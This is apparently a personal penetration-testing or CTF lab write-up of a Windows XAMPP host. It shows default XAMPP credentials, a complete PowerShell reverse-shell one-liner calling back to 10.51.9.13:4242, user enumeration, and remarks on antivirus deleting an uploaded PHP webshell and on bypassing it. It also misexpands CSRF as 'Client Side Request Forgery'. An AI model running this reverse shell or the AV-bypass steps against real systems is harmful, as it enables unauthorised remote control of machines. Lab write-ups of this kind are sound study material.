 
Here is the password.txt which be there for time waste but let's give it a try
```
PS C:\web> type passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords). 
```


I have missed a part we have some related to login page as well (i.e. some kind of attack with login reset page)

CSRF: Client Side Request Forgery 



```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.51.9.13',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Tried to get the rev-shell and here we are
![[Pasted image 20240823165205.png]]


Let's try to escalate from here.

## Users
```
Administrator                                                         
holo                                                                  
Public                                                                
watamet                                                               
WEB-MGR   
```


So before going further i want to stop here and tell that there is antivirus running.
We can stop the AV service or simply bypass it. I have uploaded the php webshell and it was gone like in 10 seconds i guess.

So when we upload the web-shell and try to run it our file gets deleted.

